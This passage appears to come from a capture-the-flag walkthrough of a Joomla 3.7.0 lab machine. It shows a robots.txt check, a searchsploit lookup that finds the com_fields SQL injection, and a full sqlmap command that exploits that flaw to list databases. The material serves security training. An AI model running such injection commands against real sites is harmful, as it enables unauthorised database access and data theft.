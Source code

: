 I tried a few credentials but no dice. I had a look in robots.txt to see if there was anything else:

![bugle-robots](/assets/images/2021-02-22-21-05-18.png)

Nothing new there either, so now we try to find an exploit:

```text
root@kali:/home/kali# searchsploit Joomla 3.7.0
--------------------------------------------------------- ---------------------------------
 Exploit Title                                           |  Path
--------------------------------------------------------- ---------------------------------
Joomla! 3.7.0 - 'com_fields' SQL Injection               | php/webapps/42033.txt
Joomla! Component Easydiscuss < 4.0.21 - Cross-Site      | php/webapps/43488.txt
--------------------------------------------------------- -------------------------------
```

We have a possible exploit for our version of Joomla, let's have a look at it:

```text
root@kali:/home/kali# searchsploit -x php/webapps/42033.txt
  Exploit: Joomla! 3.7.0 - 'com_fields' SQL Injection
      URL: https://www.exploit-db.com/exploits/42033
     Path: /usr/share/exploitdb/exploits/php/webapps/42033.txt
File Type: ASCII text, with CRLF line terminators
```

The exploit explains we can use sql injection to dump data from Joomla, here is the example:

```text
sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```
